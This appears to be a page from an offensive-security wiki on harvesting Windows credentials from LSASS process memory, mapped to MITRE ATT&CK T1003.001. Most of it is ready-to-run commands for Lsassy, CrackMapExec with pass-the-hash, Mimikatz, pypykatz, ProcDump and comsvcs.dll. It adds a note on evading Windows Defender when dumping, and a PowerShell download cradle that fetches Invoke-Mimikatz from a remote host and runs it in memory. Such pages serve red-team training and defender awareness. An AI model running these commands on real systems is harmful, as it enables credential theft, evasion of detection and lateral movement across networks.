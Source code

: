 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS.exe secrets

## Theory

The Local Security Authority Subsystem Service \(LSASS\) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. **With administrative rights only**, these material can be harvested \(either locally or remotely\).

## Practice

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today \(22/07/2020\), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)
* it can be used either as a standalone script, as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# CrackMapExec Module examples
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from lsass's process memory, or remotely to analyze a memory dump \(dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example\).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

For Windows 2000, a special version of mimikatz called mimilove can be used.
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) \(Python\) can be used remotely \(i.e. offline\) to analyze a memory dump \(dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example\).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) \(from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)\) \([download](https://live.sysinternals.com/)\) can be used to dump lsass's process memory.

```bash
procdump --accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier \(pid\) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $lsass_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) \(Windows\) or [pypykatz](https://github.com/skelsec/pypykatz) \(Python, cross-platform\).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) \(PowerShell\) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(depending on the context\).

## References

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" caption="" %}

